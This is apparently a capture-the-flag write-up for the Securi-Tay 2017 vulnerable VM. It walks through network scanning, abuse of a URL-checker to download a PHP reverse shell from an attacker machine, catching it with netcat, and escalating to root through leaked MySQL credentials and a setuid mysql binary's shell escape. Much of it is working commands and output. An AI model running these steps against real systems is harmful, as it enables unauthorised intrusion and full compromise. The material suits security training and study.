

#### Securi-Tay 2017

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [Dirb](#dirb)
- [Nikto](#nikto)
- [Web Exploitation](#web-exploitation)
- [Privilege Escalation](#privilege-escalation)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.28  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fea3:a109  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:a3:a1:09  txqueuelen 1000  (Ethernet)
        RX packets 117  bytes 19753 (19.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 59  bytes 7949 (7.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 20  bytes 1116 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1116 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Identify Victim

```sh
root@kali:~# netdiscover
 Currently scanning: 192.168.83.0/16   |   Screen View: Unique Hosts

 8 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 480
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.15    68:07:15:7a:ec:52      2     120  Intel Corporate
 192.168.1.1     a0:63:91:f0:cc:4b      1      60  NETGEAR
 192.168.1.7     f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.83    00:0c:29:88:1d:40      1      60  VMware, Inc.
 192.168.1.10    70:77:81:c0:6c:33      1      60  Hon Hai Precision Ind. Co.,Ltd.
 192.168.1.6     bc:9f:ef:69:35:19      1      60  Apple, Inc.
 192.168.1.25    3c:91:57:12:05:73      1      60  Yulong Computer Telecommunication Scientific (Shenzhen) Co.,Ltd

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/Securi-tay# nmap -sV -sC -oA securi-tay.nmap 192.168.1.83
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-03 13:56 EDT
Nmap scan report for 192.168.1.83
Host is up (0.00024s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Welcome to the Pentest URL connectivity checker.
MAC Address: 00:0C:29:88:1D:40 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.57 seconds
root@kali:~/Securi-tay#
```

###### Dirb

```sh
root@kali:~/Securi-tay# dirb http://192.168.1.83

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu May  3 13:59:12 2018
URL_BASE: http://192.168.1.83/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.83/ ----
+ http://192.168.1.83/index.php (CODE:200|SIZE:452)
+ http://192.168.1.83/server-status (CODE:403|SIZE:300)
==> DIRECTORY: http://192.168.1.83/uploads/

---- Entering directory: http://192.168.1.83/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Thu May  3 13:59:14 2018
DOWNLOADED: 4612 - FOUND: 2
root@kali:~/Securi-tay#
```

###### Nikto

```sh
root@kali:~/Securi-tay# nikto --host http://192.168.1.83
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.83
+ Target Hostname:    192.168.1.83
+ Target Port:        80
+ Start Time:         2018-05-03 13:59:38 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ Server leaks inodes via ETags, header found with file /test.html, fields: 0xe6 0x54779a620ed90
+ OSVDB-3092: /test.html: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7535 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2018-05-03 13:59:50 (GMT-4) (12 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
root@kali:~/Securi-tay#
```

```
http://192.168.1.83
```


```sh
➜  ~ cd Desktop/images
➜  images cat test.txt
This is a sample test file
➜  images python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.83 - - [03/May/2018 11:03:01] "GET /test.txt HTTP/1.1" 200 -
```

###### Web Exploitation


```
http://localhost/test.txt
```


```
http://localhost/test.html;
```


```sh
➜  ~ man curl
```


```sh
root@kali:~/Securi-tay# cd php-reverse-shell-1.0/
root@kali:~/Securi-tay/php-reverse-shell-1.0# ls
CHANGELOG  COPYING.GPL  COPYING.PHP-REVERSE-SHELL  php-reverse-shell.php
root@kali:~/Securi-tay/php-reverse-shell-1.0#
root@kali:~/Securi-tay/php-reverse-shell-1.0# vim php-reverse-shell.php
root@kali:~/Securi-tay/php-reverse-shell-1.0#
```

```php
$ip = '192.168.1.28';  // CHANGE THIS
$port = 1234;          // CHANGE THIS
```

```sh
root@kali:~/Securi-tay/php-reverse-shell-1.0# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.83 - - [03/May/2018 14:21:07] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

```
http://192.168.1.28:8000/php-reverse-shell.php -o uploads/shell.php
```


```
http://192.168.1.83/uploads/
```



```sh
root@kali:~/Securi-tay# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.28] from (UNKNOWN) [192.168.1.83] 41491
Linux ctf 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64 GNU/Linux
 12:22:17 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ctf:/$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~/Securi-tay# echo $TERM
xterm-256color
root@kali:~/Securi-tay# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig -icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/Securi-tay# stty raw -echo
root@kali:~/Securi-tay# nc -nlvp 1234
                                     reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

www-data@ctf:/$ stty rows 51 columns 204
www-data@ctf:/$ export SHELL=bash
www-data@ctf:/$ ls
bin  boot  dev	etc  home  initrd.img  lib  lib64  lost+found  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var	vmlinuz
www-data@ctf:/$ cd /home
www-data@ctf:/home$ ls -l
total 4
drwxr-xr-x 2 ctfuser ctfuser 4096 Feb 24  2017 ctfuser
www-data@ctf:/home$ cd ctfuser/
www-data@ctf:/home/ctfuser$ ls -l
total 20
-rwxr-xr-x 1 root root 19080 Feb  2  2017 mydbconnchecker
www-data@ctf:/home/ctfuser$ file mydbconnchecker
mydbconnchecker: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=92fbbfbdc7648057df89b8cf30c8d2757b79e2bb, not stripped
www-data@ctf:/home/ctfuser$ 
```

[`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

###### Privilege Escalation

```sh
www-data@ctf:/home/ctfuser$ strings mydbconnchecker
/lib64/ld-linux-x86-64.so.2
libmysqlclient.so.18
__gmon_start__
_Jv_RegisterClasses
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
mysql_fetch_row
mysql_init
_fini
mysql_real_connect
mysql_error
mysql_free_result
mysql_query
mysql_use_result
mysql_close
libpthread.so.0
libz.so.1
libm.so.6
libdl.so.2
libc.so.6
exit
puts
syslog
setlogmask
openlog
stderr
getuid
fprintf
__libc_start_main
closelog
libmysqlclient_18
GLIBC_2.2.5
fffff.
[]A\A]A^A_
localhost
root
rorschach
mysql
===The program will now connect to the MySQL Database server===
===logging status to syslog===
exampleprog
Program started by User %d
===Connecting to database:mysql on 127.0.0.1:root:rorschach===
show tables
MySQL Tables in mysql database:
;*3$"
GCC: (Debian 4.9.2-10) 4.9.2
GCC: (Debian 4.8.4-1) 4.8.4
H$res
@$row
/usr/include/x86_64-linux-gnu/bits
/usr/lib/gcc/x86_64-linux-gnu/4.9/include
/usr/include/mysql
/usr/include
mydbconnchecker.c
types.h
stddef.h
mysql.h
mysql_com.h
my_list.h
my_alloc.h
libio.h
<built-in>
stdio.h
remain_in_buf
getuid
current_field
password
server_capabilities
_shortbuf
enum_field_types
__pad3
_IO_lock_t
charset_name
conn
stderr
server
MYSQL_TYPE_NEWDECIMAL
_IO_buf_end
local_infile_userdata
MYSQL_INIT_COMMAND
local_infile_init
MYSQL_SET_CHARSET_DIR
_IO_write_end
MYSQL_OPT_SSL_VERIFY_SERVER_CERT
_flags
stmts
MYSQL_TYPE_VAR_STRING
MYSQL_OPT_USE_EMBEDDED_CONNECTION
_markers
catalog
def_length
org_name_length
server_status
protocol
pre_alloc
local_infile_read
prev
block_num
MYSQL_TYPE_VARCHAR
insert_id
MYSQL_READ_DEFAULT_GROUP
MYSQL_TYPE_DOUBLE
row_count
MYSQL_RES
connect_timeout
_IO_save_end
field_alloc
report_data_truncation
named_pipe
st_mysql_options_extention
MYSQL_SHARED_MEMORY_BASE_NAME
mysql_status
org_name
MYSQL_TYPE_DECIMAL
unbuffered_fetch_owner
long long unsigned int
MYSQL_TYPE_SET
packet_length
MYSQL_OPT_READ_TIMEOUT
use_ssl
host
shared_memory_base_name
buf_length
embedded_info
MYSQL_TYPE_DATETIME
_IO_backup_base
MYSQL_OPT_NAMED_PIPE
read_timeout
MYSQL_READ_DEFAULT_FILE
write_timeout
st_used_mem
_fileno
__pad1
__pad2
GNU C 4.9.2 -mtune=generic -march=x86-64 -g -fno-strict-aliasing
st_vio
buff
local_infile_end
_IO_buf_base
reading_or_writing
thread_id
return_status
size_t
my_bool
_IO_read_base
MEM_ROOT
_next
init_commands
free
MYSQL_TYPE_YEAR
MYSQL_OPT_USE_REMOTE_CONNECTION
MYSQL_ENABLE_CLEARTEXT_PLUGIN
my_cnf_group
unbuffered_fetch_cancelled
MYSQL_STATUS_USE_RESULT
passwd
st_mysql
affected_rows
free_me
MYSQL_TYPE_NEWDATE
st_list
MYSQL_TYPE_FLOAT
ssl_cert
secure_auth
_mode
MYSQL_OPT_USE_RESULT
MYSQL_OPT_GUESS_CONNECTION
extension
catalog_length
_IO_marker
MYSQL_DEFAULT_AUTH
fields
my_socket
exit
current_row
host_info
MYSQL_OPT_LOCAL_INFILE
compress
MYSQL_TYPE_LONGLONG
mysql_option
MYSQL_STATUS_GET_RESULT
_IO_write_base
long long int
connector_fd
db_length
server_version
_IO_save_base
my_cnf_file
unused1
unused3
unused4
unused5
protocol_version
MYSQL_TYPE_LONG_BLOB
MYSQL_OPT_WRITE_TIMEOUT
MYSQL_TYPE_TINY_BLOB
unix_socket
st_dynamic_array
reconnect
client_ip
MYSQL_TYPE_INT24
scramble
/home/ctfuser
__pad4
__pad5
_vtable_offset
ssl_key
MYSQL_OPT_PROTOCOL
database
ssl_ca
charsetnr
main
sqlstate
ssl_capath
read_pos
ssl_cipher
st_mem_root
error_handler
MYSQL_TYPE_STRING
_IO_read_end
max_length
MYSQL_TYPE_LONG
USED_MEM
short int
MYSQL_PLUGIN_DIR
client_flag
compress_pkt_nr
local_infile_error
MYSQL_TYPE_ENUM
MYSQL_TYPE_MEDIUM_BLOB
last_errno
buff_end
block_size
methods_to_use
st_mysql_rows
server_language
MYSQL
MYSQL_SET_CLIENT_IP
left
embedded_query_result
MYSQL_ROWS
where_b
_lock
MYSQL_TYPE_BIT
MYSQL_TYPE_BLOB
st_mysql_methods
write_pos
st_mysql_field
max_packet
last_error
MYSQL_SET_CHARSET_NAME
st_mysql_res
sizetype
_old_offset
_IO_FILE
unused
MYSQL_REPORT_DATA_TRUNCATION
field_count
max_packet_size
charset
unsigned char
MYSQL_TYPE_GEOMETRY
MYSQL_TYPE_TIME
_sbuf
org_table
MYSQL_TYPE_SHORT
st_mysql_options
max_allowed_packet
min_malloc
_IO_write_ptr
MYSQL_ROW
fcntl
info_buffer
st_net
mydbconnchecker.c
st_mysql_data
MYSQL_STATUS_READY
MYSQL_TYPE_DATE
LIST
MYSQL_STATUS_STATEMENT_GET_RESULT
__off_t
first_block_usage
MYSQL_DATA
charset_dir
short unsigned int
MYSQL_TYPE_TINY
handle
MYSQL_OPT_COMPRESS
lengths
extra_info
retry_count
_IO_read_ptr
MYSQL_TYPE_TIMESTAMP
double
save_char
org_table_length
MYSQL_OPT_CONNECT_TIMEOUT
_chain
MYSQL_FIELD
decimals
_flags2
MYSQL_OPT_RECONNECT
data_cursor
_cur_column
my_ulonglong
MYSQL_SECURE_AUTH
charset_info_st
MYSQL_TYPE_NULL
__off64_t
_unused2
port
warning_count
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
crtstuff.c
__JCR_LIST__
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
completed.6661
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
mydbconnchecker.c
__FRAME_END__
__JCR_END__
_GLOBAL_OFFSET_TABLE_
__init_array_end
__init_array_start
_DYNAMIC
data_start
printf@@GLIBC_2.2.5
__libc_csu_fini
mysql_use_result@@libmysqlclient_18
_start
syslog@@GLIBC_2.2.5
mysql_query@@libmysqlclient_18
__gmon_start__
_Jv_RegisterClasses
puts@@GLIBC_2.2.5
openlog@@GLIBC_2.2.5
exit@@GLIBC_2.2.5
_fini
setlogmask@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
_ITM_deregisterTMCloneTable
_IO_stdin_used
closelog@@GLIBC_2.2.5
_ITM_registerTMCloneTable
__data_start
__TMC_END__
mysql_free_result@@libmysqlclient_18
__dso_handle
__libc_csu_init
__bss_start
getuid@@GLIBC_2.2.5
mysql_init@@libmysqlclient_18
_end
stderr@@GLIBC_2.2.5
_edata
fprintf@@GLIBC_2.2.5
mysql_real_connect@@libmysqlclient_18
mysql_fetch_row@@libmysqlclient_18
mysql_error@@libmysqlclient_18
main
_init
mysql_close@@libmysqlclient_18
www-data@ctf:/home/ctfuser$
```

```sh
www-data@ctf:/home/ctfuser$ cat /var/log/syslog | tail
May  3 12:15:01 ctf CRON[1405]: (root) CMD (/home/ctfuser/mydbconnchecker)
May  3 12:15:01 ctf exampleprog[1406]: Program started by User 0
May  3 12:15:01 ctf exampleprog[1406]: ===Connecting to database:mysql on 127.0.0.1:root:rorschach===
May  3 12:17:01 ctf CRON[1417]: (root) CMD (   cd / && run-parts --report /etc/cron.hourly)
May  3 12:20:01 ctf CRON[1423]: (root) CMD (/home/ctfuser/mydbconnchecker)
May  3 12:20:01 ctf exampleprog[1424]: Program started by User 0
May  3 12:20:01 ctf exampleprog[1424]: ===Connecting to database:mysql on 127.0.0.1:root:rorschach===
May  3 12:25:01 ctf CRON[1446]: (root) CMD (/home/ctfuser/mydbconnchecker)
May  3 12:25:01 ctf exampleprog[1447]: Program started by User 0
May  3 12:25:01 ctf exampleprog[1447]: ===Connecting to database:mysql on 127.0.0.1:root:rorschach===
www-data@ctf:/home/ctfuser$
```

```sh
www-data@ctf:/home/ctfuser$ cd /usr/bin/
www-data@ctf:/usr/bin$ ls -l mysql
-rwsr-xr-x 1 root root 3466312 Jan 19  2017 mysql
www-data@ctf:/usr/bin$
```

```sh
www-data@ctf:/var/www$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 48
Server version: 5.5.54-0+deb8u1 (Debian)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> \! /bin/sh
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# cd /root
# ls -l
total 16
-r-x------ 1 root root 8096 Feb 24  2017 flag-gen
---------- 1 root root  285 Feb  2  2017 flag.txt
---------- 1 root root  451 Feb  2  2017 public_key.pem
# cat flag.txt
Please run the flag-gen binary in the /root/ folder to generate your unique flag. If you have got this far and are interested doing this sort of thing for a living, send an email to careers@pentest.co.uk with your unique flag, a description of how you found it and your CV. Well Done!
# file flag-gen
flag-gen: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=566a35a6315c24c5da970289dbd3543a9d7a89e4, not stripped
# ./flag-gen
Please supply your name as an argument.
# ./flag-gen kan1shka9
tQog62xa1idV9WCsaqAuUhGJ9ZV7xQFHzIVMZ6PO9D/0Ug3RXmTxSCEh9H5dArozH9gwpaeg2z25
w8iCiHvHtTofMsNJu+Kg+Jz7I7BTOSXypk9nE1n2KkY3gRZkbP2W54ynJHBT/v2DcoLe+kUzIKV6
Ac/YqrcysDW3GBgsDLq1hfP4E5Lmm6FJmOQHQmlusST1ljlnuLs26hX25s5knc2LVliMXWeqZZQI
Oov5HEGVWe8w7GAsKhSaxf1WxEsVuFOirCx0ns2RTz6sf+2xUedTYgnx66WYkr4UXslXN9mz/Mlw
GQOb/Y4LqdESv3lsZUvp6YZHw6fsm4M+EUxmZw==
#
```
